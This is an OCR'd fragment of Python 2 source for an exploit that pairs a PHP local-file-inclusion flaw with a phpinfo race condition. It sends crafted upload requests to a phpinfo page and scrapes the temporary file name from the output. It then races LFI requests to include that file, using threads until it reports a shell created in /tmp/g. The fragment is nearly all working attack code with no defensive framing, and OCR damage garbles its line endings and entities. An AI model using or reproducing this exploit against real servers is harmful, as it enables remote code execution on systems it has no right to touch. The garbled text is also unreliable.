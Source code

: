 ```
Host: %sr
r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script
#     LFIREQ="""GET /lfi.php?file=%s%%00 HTTP/1.1r
# User-Agent: Mozilla/4.0r
# Proxy-Connection: Keep-Aliver
# Host: %sr
# r
# r
# """
    LFIREQ="""GET /lfi.php?file=%s HTTP/1.1r
User-Agent: Mozilla/4.0r
Proxy-Connection: Keep-Aliver
Host: %sr
r
r
"""
    return (REQ1, TAG, LFIREQ)
def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s2.connect((host, port))
    s.send(phpinforeq)
    d = ""
    while len(d) &lt; offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&amp;gt")
        fn = d[i+17:i+31]
        # print fn
    except ValueError:
        return None

    s2.send(lfireq % (fn, host))
    d = s2.recv(4096)
    s.close()
    s2.close()
    if d.find(tag) != -1:
        return fn

counter=0
class ThreadWorker(threading.Thread):
    def __init__(self, e, l, m, *args):
        threading.Thread.__init__(self)
        self.event = e
        self.lock = l
        self.maxattempts = m
        self.args = args
    def run(self):
        global counter
        while not self.event.is_set():
            with self.lock:
                if counter &gt;= self.maxattempts:
                    return
                counter+=1
            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print "nGot it! Shell created in /tmp/g"
```
